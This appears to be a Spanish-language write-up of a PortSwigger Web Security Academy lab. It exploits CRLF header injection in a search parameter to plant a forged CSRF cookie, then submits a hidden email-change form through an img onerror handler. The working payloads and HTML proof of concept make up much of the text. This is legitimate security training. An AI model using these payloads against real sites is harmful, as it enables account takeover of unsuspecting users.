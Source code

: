 `TAREA:`
Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

como siempre iniciamos sesión en el lab con las credenciales que nos proporcionan e interceptamos la solicitud para luego enviarla al repeater
![[Pasted image 20250710162852.png]]

después de interceptar la solicitud la enviamos al repeater y podemos tirar (Drop) la intercepción para no realizar ningún cambio 

podemos ver que tenemos tanto la `cookie` de inicio de sesión como el `csrf`
![[Pasted image 20250710163229.png]]

ahora realizamos una búsqueda y analizamos la solicitud para identificar sus parámetros
![[Pasted image 20250710163311.png]]

una ves tenemos la solicitud la enviamos al repeater para analizar la respuesta del lado del servidor. en este caso tenemos una respuesta `200 OK` y nos devuelve el parámetro `Set-cookie: LastSearchTerm` esta cookie contiene el parámetro de nuestra ultima búsqueda es decir `test` así que vamos a validar esto y si no cumple con la validación correcta podemos explotar esta vulnerabilidad y generar una cabecera dinámica que contenga el parámetro `Set-cookie`
![[Pasted image 20250710163437.png]]

realizamos la validación correspondiente y efectivamente obtenemos una respuesta `200 OK` donde el parámetro `Set-Cookie` contiene el valor `csrf:test`

la inyección del encabezado nos quedaría así:
```python
GET /?search=test%0d%0aSet-Cookie:%20csrf=test HTTP/2
```

por ejemplo también podrías crea una URL que use esta vulnerabilidad para inyectar una URL falsa. `csrf`cookie en el navegador de la víctima.

```python
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

![[Pasted image 20250710164155.png]]

ahora lo que tenemos que hacer es ir a la solicitud que contiene nuestra función de actualización de correo electrónico y vamos a generar un CSRF PoC 
![[Pasted image 20250710164512.png]]

primero vamos e eliminar la función de las etiquetas `<script>` para poder hacer uso de nuestra inyección 
![[Pasted image 20250710164700.png]]

ahora solo nos queda inyectar una fuente de imagen que haga un llamado a la url que será la web + el encabezado que hemos construido. nos quedaría algo así: 

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="t7TLNlTl0JbLuxmo3xN0Gn3XxKZpwwfz" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

donde
```python
<img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
seria nuestra inyección completa y maliciosa

`NOTA: Recuerda cambiar tu valor de csrf token. por el valor de LastSearchTerm en mi caso es -test-  ` 
![[Pasted image 20250710165217.png]]

de esta manera logramos realizar un ataque `CSRF` sobre la funcionalidad de cambio o actualización de correo electronico 
![[Pasted image 20250710170300.png]]